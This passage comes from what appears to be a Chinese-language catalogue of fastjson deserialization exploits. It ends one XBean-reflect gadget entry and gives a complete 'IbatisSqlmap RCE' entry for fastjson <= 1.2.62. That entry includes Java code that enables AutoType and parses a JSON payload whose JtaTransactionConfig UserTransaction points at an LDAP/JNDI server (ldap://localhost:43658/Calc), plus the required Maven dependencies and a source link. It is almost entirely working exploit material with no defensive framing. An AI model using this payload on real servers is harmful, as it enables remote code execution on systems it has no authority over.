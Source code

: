 ### 影响版本

- fastjson <= 1.2.62

### 依赖

XBean-reflect 依赖的 gadget

```
<dependency>
    <groupId>org.apache.xbean</groupId>
    <artifactId>xbean-reflect</artifactId>
</dependency>
```

### 来源

- https://github.com/threedr3am/learnjavabug/blob/master/fastjson/src/main/java/com/threedr3am/bug/fastjson/rce/JndiConverterPoc.java

## IbatisSqlmap RCE（<= 1.2.62）

fastjson <= 1.2.62 RCE，需要开启AutoType (report by threedr3am to 阿里云先知众测 - 内部已知)

### Payload

```java
public static void main(String[] args) {
    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);

    String payload = "{\"@type\":\"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig\",\"properties\": {\"@type\":\"java.util.Properties\",\"UserTransaction\":\"ldap://localhost:43658/Calc\"}}";//ldap方式
    JSON.parse(payload);
}
```

### 影响版本

- fastjson <= 1.2.62

### 依赖

```java
<dependency>
    <groupId>org.apache.ibatis</groupId>
    <artifactId>ibatis-sqlmap</artifactId>
    <version>2.3.4.726</version>
</dependency>
<dependency>
    <groupId>javax</groupId>
    <artifactId>javaee-api</artifactId>
    <version>8.0.1</version>
</dependency>
```

